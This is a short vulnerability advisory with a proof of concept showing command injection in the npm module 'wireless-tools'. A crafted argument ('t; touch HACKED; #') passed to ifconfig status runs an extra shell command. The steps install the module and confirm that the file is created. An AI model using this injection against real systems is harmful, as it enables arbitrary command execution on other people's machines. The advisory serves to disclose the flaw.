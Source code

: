 # Description

The `wireless-tools` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executed, leading to `arbitrary command injection`

# POC

1. Create the following PoC file:

```js
// poc.js
var hd = require('wireless-tools/ifconfig');
hd.status("t; touch HACKED; #", function(){});

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i wireless-tools # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
